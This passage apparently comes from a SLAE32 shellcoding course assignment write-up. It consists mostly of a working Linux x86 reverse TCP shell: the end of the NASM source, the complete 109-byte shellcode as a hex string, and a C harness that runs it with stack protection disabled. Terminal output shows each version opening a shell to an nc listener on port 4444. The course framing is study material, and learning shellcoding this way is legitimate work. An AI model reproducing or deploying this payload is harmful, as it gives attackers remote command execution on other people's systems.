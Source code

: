 ```nasm
    mov byte [esp + 11], al
    mov al, 0xb
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
```

Compiling and testing the NASM generated ELF file
```
slemire@slae:~/slae32/assignment2$ ../compile.sh shell_tcp_reverse
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Shellcode: \x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb8\x80\xff\xff\xfe\xbb\xff\xff\xff\xff\x31\xd8\x52\x52\x50\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x31\xc0\x31\xdb\xb0\x66\xb3\x03\x6a\x10\x56\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
[+] Length: 109
[+] Done!

slemire@slae:~/slae32/assignment2$ file shell_tcp_reverse
shell_tcp_reverse: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

slemire@slae:~/slae32/assignment2$ ./shell_tcp_reverse
[...]
slemire@slae:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 52204)
whoami
slemire
```

The shellcode is then tested with the skeleton program:
```c
#include <stdio.h>

char shellcode[]="\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb8\x80\xff\xff\xfe\xbb\xff\xff\xff\xff\x31\xd8\x52\x52\x50\x66\x68\x11\x5c\x66
\x6a\x02\x89\xe6\x31\xc0\x31\xdb\xb0\x66\xb3\x03\x6a\x10\x56\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x
2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    printf("Size: %d bytes.\n", sizeof(shellcode));
    ret();
}
```

Compiling and testing the shellcode:
```
slemire@slae:~/slae32/assignment2$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment2$ ./shellcode
[...]
slemire@slae:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 52212)
whoami
slemire
```
